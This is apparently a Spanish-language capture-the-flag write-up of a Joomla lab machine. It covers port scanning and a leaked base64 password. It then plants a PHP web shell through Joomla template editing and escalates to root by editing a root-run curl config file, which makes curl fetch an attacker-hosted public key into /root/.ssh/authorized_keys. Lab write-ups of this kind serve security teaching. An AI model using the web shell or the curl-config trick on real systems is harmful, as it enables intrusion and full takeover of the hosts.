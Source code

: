 ------
- Tags: #curl #hexadecimal #joomla 
-  --------
## Técnicas utilizadas
- Information Leakage wtf xd  
- Joomla Enumeration  
- Joomla Exploitation [Abusing Templates] [RCE]  
- Decompression Challenge  
- Abusing Curl [Playing with Config files] [Privilege Escalation]
## Procedimiento
![[Pasted image 20230728155949.png]]

#### Reconocimiento
Si lanzamos un **nmap** contra la maquina, podemos observar los siguientes puertos abiertos:
```ruby
# nmap -sCV -p22,80 -oN Ports 10.10.10.150
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 03:26 UTC
Nmap scan report for 10.10.10.150
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
|_  256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.15 seconds
```

Un escaneo con **whatweb** para descubrir tecnologías que estan corriendo por detrás nos muestra este resultado:
```ruby
# whatweb 10.10.10.150
http://10.10.10.150 [200 OK] Apache[2.4.29], Bootstrap, Cookies[c0548020854924e0aecd05ed9f5b672b], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[c0548020854924e0aecd05ed9f5b672b], IP[10.10.10.150], JQuery, MetaGenerator[Joomla! - Open Source Content Management], PasswordField[password], Script[application/json], Title[Home]
```

----------
#### Information Leakage wtf xd 
Si revisamos el codigo fuente, encontramos una **hint** que nos incita a visitar un archivo de nombre **secret.txt**:
![[Pasted image 20230729032827.png]]

Si le aplicamos un `base64 -d` a la cadena que encontramos, podemos dar con la contraseña del usuario **floris**, asi que deberiamos poder iniciar sesión en el Joomla.

-------
#### Joomla Enumeration
##### Joomla Exploitation
Pasa abusar de Joomla es tan facil como irnos a la sección de **templates**, seleccionamos un **template** y dentro vamos a crear un nuevo archivo con extensión **.php** y dentro de este, vamos a colocar el tipico:
`<?php system($_REQUEST['cmd']); ?>`

Y ahora solo tendriamos que visitar la ruta:
`http://10.10.10.10/template/<name-template>/pwned.php?cmd=whoami`

Y veriamos el output del comando:
![[Pasted image 20230729033058.png]]

---------
#### Decompression Challenge
Dentro encontramos un archivo de nombre **password_backup** que al hacerle un **cat** vemos que esta en formato Hexadecimal:
![[Pasted image 20230729033252.png]]

Si le hacemos el proceso inverso, lo almacenamos en un archivo y despues le aplicamos un **file** vemos que se trata de un archivo **bzip2**:
```
# cat password_backup | xxd -r > /tmp/file && file /tmp/file
/tmp/file: bzip compressed data, block size = 900k
```

Ahora, le podemos hacer simplemente un `bzip2 -d /tmp/file` y ver el contenido. Ahora, si aplicamos un **file** nos indica que es un archivo **.gz**, entonces, lo renombramos a **file.gz** y le hacemos un `gunzip /tmp/file.gz`. Lo curioso es que, ahora, el archivo es otro **.bzip2**, asi que volvemos a repetir todo el proceso a hasta encontrar data. Al final, podemos encontrar la contraseña del usuario **floris**:
![[Pasted image 20230729033506.png]]

--------
#### Abusing Curl [Playing with Config files] Privilege Escalation
Enumerando el sistema, encontramos un comando que se esta ejecutando a intervalos regulares de tiempo ( con la herramienta pspy logramos verlo ) el cual esta aplicando un `curl -K` hacia un archivo de configuración el cual de primeras tenemos capacidad de lectura y de escritura. Pues nosotros, cuando veamos que se este aconteciendo esto, podemos abusar de esto de la siguiente forma.

1. Podemos depositar cualquier archivo en cualquier ruta del sistema ( dado que lo ejecuta root ).
2. Entonces, podemos alterar el **/etc/passwd** o cualquier otro archivo critico el cual nos permite escalar privilegios.
3. Modificamos el archivo **input** y colocaremos lo siguiente:
```
url = "http://10.10.10.10/id_rsa.pub"
output = "/root/.ssh/authorized_keys"
```
4. Ahora podemos conectarnos con **ssh** como **root** sin proporcinar contraseña.